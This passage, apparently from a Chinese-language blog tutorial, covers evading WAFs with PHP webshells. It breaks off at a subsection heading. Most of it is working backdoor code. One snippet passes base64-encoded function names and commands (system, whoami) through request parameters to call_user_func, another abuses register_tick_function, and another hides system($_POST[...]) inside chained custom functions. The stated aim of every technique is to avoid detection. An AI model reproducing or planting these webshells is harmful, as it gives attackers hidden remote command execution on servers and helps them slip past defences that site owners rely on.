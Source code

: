     
    
    加密手法可以看我写的博客： https://blog.zgsec.cn/index.php/archives/147/

##

## 9# 传参绕过

将恶意代码不写入文件，而是通过传参传入，所以这个比较难以被常规WAF所识别

###

### 9.1 Base64传参

  *   *   *   *   *   *   *   *   * 

    
    
    $decrpt = $_REQUEST['a'];$decrps = $_REQUEST['b'];$arrs = explode("|", $decrpt)[1];$arrs = explode("|", base64_decode($arrs));$arrt = explode("|", $decrps)[1];$arrt = explode("|", base64_decode($arrt)); call_user_func($arrs[0],$arrt[0]);传参内容：a=c3lzdGVt    //system的base64加密b=d2hvYW1p    //whoami的base64加密

也可以尝试使用其他编码或者加密方式进行传参

###

### 9.2 函数构造传参

可以用一些定义函数的函数来进行传参绕过，比如使用 `register_tick_function()` 这个函数

  *   *   *   *   *   * 

    
    
    register_tick_function ( callable $function [, mixed $... ] ) : bool例子如下：$f = $_REQUEST['f'];declare(ticks=1);register_tick_function ($f, $_REQUEST['aabyss']);  
    

## 10# 自定义函数绕过

通过自定义函数，将恶意代码内容隐藏于自定义函数当中，再进行拼接执行

###

### 10.1 简单自定义函数

这个要与其他的姿势进行结合，目前没办法通过简单自定义函数进行免杀

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    function out($b){    return $b;}function zhixin($a){    return system($a);}function post(){    return $_POST['aabyss'];}  
    function run(){    return out(zhixin)(out(post()));}  
    run();

###

### 10.2 读取已定义函数
